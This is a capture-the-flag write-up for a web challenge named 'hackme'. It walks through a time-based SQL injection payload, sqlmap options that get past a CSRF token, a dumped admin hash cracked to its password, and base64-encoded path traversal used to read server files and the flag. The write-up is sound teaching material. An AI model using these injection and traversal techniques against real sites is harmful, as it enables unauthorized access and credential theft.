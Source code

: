 # Writeup for hackme

> Solves: 48
> 
> Hack me, please

The website contain only login form, without any other suspected content, so first impulse, sql injection.

![Screenshot_1.png](Screenshot_1.png)

We have seen only one returned value `User Name or Password incorrect` if sql query was correct. Checked time based SQLi in login input `a' OR if(1=1, sleep(10), false) OR 'a` positive, because execute this taken ~10 seconds.
We had assumed that was blind SQLi. (After CTF, another teams has shown that it was simple SQLi, blindSQLi was not necessary)

We have not had a lot of time, so we use sqlmap. Form had csrf token `<input type='hidden' name='user_token' value='40dbd5c24bcba5a579557884b60e50d8' />`, but that was not a problem for sqlmap with two extra params `--csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/"`

In a few seconds, we got, what we need. 

```
Database: hack.me
Table: user
[1 entry]
+--------+-----------+----------+----------------------------------+
| userid | sessionid | username | password                         |
+--------+-----------+----------+----------------------------------+
| 1      | aaa       | admin    | 26a340b11385ebc2db3b462ec2fdfda4 |
+--------+-----------+----------+----------------------------------+
```

MD5 existed in web databases

![Screenshot_2.png](Screenshot_2.png)

After login for `admin` `catchme8`, unfortunately not came out flag, but interesting dashboard.

![Screenshot_3.png](Screenshot_3.png)

We did notice with great interest, that one menu link `help.pdf` had this route: `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=aGVscC5wZGY`. `aGVscC5wZGY` after base64 decode was `help.pdf`, looked like LFI. 

We encode `../index.php` to base64 `Li4vaW5kZXgucGhw`, open `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vaW5kZXgucGhw`, and get source of `index.php` into downloaded .pdf file.

One line was `shpaMessagePush("error: saved in sensitive_log_881027.txt");`. Interestingly, we again encode `../sensitive_log_881027.txt` to `Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0` and get this file by url `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0`. Downloaded file contained FLAG
